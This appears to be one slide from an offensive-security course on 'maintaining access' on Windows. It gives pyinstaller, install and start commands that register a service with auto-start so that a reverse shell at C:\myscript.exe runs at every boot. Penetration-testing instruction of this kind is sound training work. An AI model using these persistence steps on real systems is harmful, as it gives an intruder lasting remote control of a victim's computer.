

Maintaining Access (cont.)
On Windows (cont.)
We will compile it as previously done:
pyinstaller.exe --hiddenimport win32timezone --onefile --icon NONE .\my_service.py
Next, we will run the output executable and install the service and run it.

Note that we need to make sure that our reverse shell is placed at PATH_TO_REV_SHELL (C:\myscript.exe) before starting the service.
.\my_service.exe --startup auto install
.\my_service.exe start
Notice that we’re adding --startup auto which will run the service on the system startup.

This means the service is going to start at the system’s startup.
184